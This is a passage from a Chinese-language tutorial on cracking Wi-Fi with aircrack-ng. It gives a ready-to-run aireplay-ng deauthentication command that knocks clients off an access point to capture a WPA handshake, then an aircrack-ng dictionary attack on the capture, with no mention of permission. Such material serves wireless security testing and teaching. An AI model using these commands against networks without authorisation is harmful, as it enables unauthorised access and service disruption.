 向AP发送取消认证的数据包，使一个或多个客户端与AP断开，迫使其发送握手包进行重新链接

    aireplay-ng -0 10 -a 目标MAC地址 -c 客户端MAC地址 MAC mon0
    

在使用上述命令后，在前一个终端中，#Data列数据将会增长，直到终端中显示如下描述时就可以进行WAP的破解了。

    WPA handshake: 00:14:6C:7E:40:80
    

> PS：更多攻击方式的使用示例请看这里吧：http://www.aircrack-ng.org/doku.php?id=aireplay-ng

#### 4.4破解数据包(aircrack-ng)

打开第三个终端，开始破解：

    aircrack-ng -w password.lst -b 目标MAC地址 output*.cap
    

-w 指定使用的字典文件

> PS：WEP加密方式再复杂的密码在5分钟内就可以破解出来，而WAP加密方式就要看字典文件、密码复杂度以及运气和人品了。

### 5.参考：

1.aireplay-ng的九种攻击方式：<http://jim19770812.blogspot.com/2012/05/aircrack-ng.html>  
2.各种破解教程：<http://www.aircrack-ng.org/doku.php?id=tutorial>  
3.Ubuntu支持无线网卡驱动信息：<https://help.ubuntu.com/community/WifiDocs/Driver>

 [1]: http://www.aircrack-ng.org/doku.php?id=compatibility_drivers#which_is_the_best_card_to_buy
 [2]: https://help.ubuntu.com/community/WifiDocs/Driver
 [3]: http://linuxwireless.org/
 [4]: /media/2013/02/4236977490.png